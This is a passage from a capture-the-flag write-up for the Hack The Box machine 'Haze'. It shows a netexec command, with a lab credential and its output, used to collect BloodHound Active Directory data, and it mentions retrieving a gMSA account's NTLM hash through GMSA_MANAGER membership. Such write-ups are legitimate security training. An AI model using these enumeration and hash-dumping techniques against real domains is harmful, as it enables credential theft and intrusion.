 ## Active Directory Enumeration

Since the `enumeration` on the box itself was a dead end, we moved on and took a closer look at the `Active Directory` using `BloodHound`.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Haze/files]
└─$ netexec ldap 10.129.135.234 -u 'mark.adams' -p 'Ld@p_Auth_Sp1unk@2k24' --bloodhound --dns-tcp --dns-server 10.129.135.234 -c All 
SMB         10.129.135.234  445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:haze.htb) (signing:True) (SMBv1:False)
LDAP        10.129.135.234  389    DC01             [+] haze.htb\mark.adams:Ld@p_Auth_Sp1unk@2k24 
LDAP        10.129.135.234  389    DC01             Resolved collection methods: session, acl, rdp, objectprops, group, container, psremote, trusts, dcom, localadmin
LDAP        10.129.135.234  389    DC01             Done in 00M 07S
LDAP        10.129.135.234  389    DC01             Compressing output into /home/kali/.nxc/logs/DC01_10.129.135.234_2025-03-29_213226_bloodhound.zip
```

## Dumping Group Managed Service Accounts (gMSA)

The user `Mark.Adams` was `member` of `GMSA_MANAGER`.

![](images/2025-03-29_21-34_bloodhound_mark_adams_group_memberships.png)

Mr. `mentats` went for it and carried out the command which allowed us to `retrieve` the `NTLM Hash` of `Haze-IT-Backup$`.

- [https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-ada2/c651f64d-5e92-4d12-9011-e6811ed306aa](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-ada2/c651f64d-5e92-4d12-9011-e6811ed306aa)
